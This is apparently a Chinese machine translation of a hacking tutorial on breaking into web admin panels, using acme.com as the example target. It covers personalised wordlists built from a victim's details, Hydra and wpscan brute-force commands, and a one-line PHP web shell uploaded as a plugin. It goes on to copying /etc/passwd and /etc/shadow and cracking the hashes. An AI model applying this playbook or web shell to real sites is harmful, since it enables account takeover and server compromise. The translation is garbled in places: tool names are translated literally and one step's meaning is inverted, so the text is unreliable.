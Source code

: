 # 如何成功攻击管理面板

> 原文：<https://infosecwriteups.com/how-to-attack-admin-panels-successfully-72c90eeb818c?source=collection_archive---------0----------------------->

## 以正确的方式攻击 Web 应用管理面板

![](img/2a98da02bad04d160b8affe9c3d7cfe5.png)

照片由[克里斯蒂娜@ wocintechchat.com](https://unsplash.com/@wocintechchat?utm_source=medium&utm_medium=referral)在 [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral) 上拍摄

> 注意:教程对初学者不太友好

经过一些调整，你将在这里学到的东西可以应用于任何网络应用。本教程将涵盖常规的 CMS 和 WordPress 作为奖励。

## 工具:

*   **代理链**
*   **哈希德**
*   **Cewl**
*   约翰·雷普
*   ****Wpscan****
*   ****VM 卡莉****
*   ****九头蛇****

## **第一部分:**

**通过快速浏览***https://ww.acme.com***的源代码，我们找到了这个网站的登录面板。这一发现可能会带来多种可能性，但同时，不太容易利用，因为许多这些错误总是需要你有认证用户的权利。**

**大多数登录面板非常容易列举，这将有助于我们更快地完成这项工作。让我们假设*多丽丝*是***acme.com***的作者。作为作者，她只能安装*插件*。现在，我们将尝试使用以下步骤强行破解她的密码:**

**搜索网站上的单词**

**`*wc -l file.txt* **#Display the number of words in the file**`**

**不像成千上万关于这个主题的不切实际的教程，我们不会使用***sec list/rock you . txt***。对于多丽丝，你需要做一个个人词汇表。按照上面的命令，我们刮掉了*并定位了最少六个字符的单词( **-m 6** ，并编写了( **-w** )一个**自定义单词列表** (acme-recon.txt)。这一步对黑客来说非常关键。人们倾向于根据他们控制的网站来设置密码。许多作者喜欢链接他们的社交媒体账户。利用这一点，我们可以了解任何出生日期、猫的名字等等。通过了解这些信息，我们可以建立一个非常强大的单词表。***

***在得知她的生日后，我们会告诉收割者约翰在我们的清单上增加四个数字。我们将通过在 John 的配置文件中添加一些规则来实现这一点。在我们的例子中，我们需要 0 到 9 之间的任何数字(***【0–9】***)。***

***将规则添加到 john 配置文件***

***我们可能会改变我们的单词列表，它目前包括 201 个单词，现在规则已经添加到配置文件中，让我们使用下面的命令:***

***合并两个列表的命令***

> ***提示:制作两个相同的列表，一个将**的第一个字母大写，另一个小写，然后将它们合并。*****

*****奖励:你可能会喜欢这些工具*****

***[](/must-have-tools-for-hacking-c2b75b332d2c) [## 黑客必备工具

### 查找漏洞的有用工具

infosecwriteups.com](/must-have-tools-for-hacking-c2b75b332d2c) 

接下来，我们必须通过检查相关网页的 HTML 代码(**位于/account/login.php** )来理解我们想要强力攻击的 web 表单

登录表单源代码

**POST** 请求由 **/account/login.php** 处理，这是我们将提供给 **Hydra** 的 URL。因为我们使用单词表来定位用户 **Doris。**hydra 的最后一个参数是**/account/log in . PHP:user = Doris&password = ^password^**，其中 **password** 作为单词列表文件条目的占位符。

九头蛇攻击

为了阻止九头蛇找到多丽丝 T21 的密码，你需要在你输入错误密码时添加登录页面的结果。在这种情况下是“登录无效”*** 

## ***奖金:***

***如果网站是用 WordPress 制作的，事情就简单多了，只要重复所有的步骤来制作单词表，然后使用下面的命令来破解密码。您也可以使用`--usernames /tmp/userlist.txt`破解**用户名**:***

***`wpscan - url acme.com -U doris -P /tmp/yourwordlist.txt -t 4`***

## ***第二部分:***

***至此，我们才发现多丽丝的密码是 ***Acme1998*** 。现在，你有这种欣快的幸福感，因为你发现了一个很好的 bug。你去报案了。好吧，你错过了一个获得更大赏金的机会，这是大多数没有经验的猎人都会做的。***

***还记得我告诉你多丽丝可以安装插件吗？这是有原因的。您将使用她的权限安装 web shell。安装完 **web shell** 后，我们将控制域面板控件。怎么做？制作一个文件，命名为**whateveryouwant.php**，然后在里面添加以下内容:***

*****<？php 系统($ _ REQUEST[" cmd "])；？>*****

> ***注意:在这一点上，你所能做的，仅限于你的特权提升技能…***

***上传这个文件，就像这是一个普通的插件。导航到它的位置**acme.com/../shell.php?cmd=ifconfig**并测试它以确保它能工作。此时导航到 **/etc/passwd** 和**将其内容复制到一个 file.txt** ，对 **/etc/shadow 做同样的。**现在我们需要知道 shawdow 正在使用哪种散列。***

***标识哈希类型的哈希 id***

***为了用 JTR 破解**基于 Linux 的**散列，您需要首先使用 **unshadow** 实用程序来组合来自受损系统的 **passwd** 和 **shadow** 文件。***

***解除密码哈希的阴影***

***在这一点上，你有两个选择来获得**控制面板密码**，我们可以使用我们之前制作的相同的单词表，制作一个新的，或者添加一些新的参数，比如特殊字符。在某些情况下，我们可以简单地使用 John 内置的`--format=raw-md5`并相信我，它的内置功能是有效的。一开始我不是信徒，直到我破解了 10 多个密码！***

***要使用自己的单词表，请按照以下步骤操作:***

***约翰使用单词表***

## ***奖金:第二部分***

***[](https://medium.com/geekculture/how-to-attack-admin-panels-successfully-part-2-9316c3caad3a) [## 如何成功攻击管理面板第 2 部分

### 没有以正确的方式攻击 Web 应用管理面板？

medium.com](https://medium.com/geekculture/how-to-attack-admin-panels-successfully-part-2-9316c3caad3a) 

## 结论:

当你熟悉这些工具时，你将能够做的事情是无限的。永远记住，一些登录面板有规则，可能会阻止您的 IP 访问他们的网站。您只能在没有费率限制的登录面板上尝试。既然你已经到了这一步，**考虑订阅**更多即将到来的 infosec 教程。*** 

## ***来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！***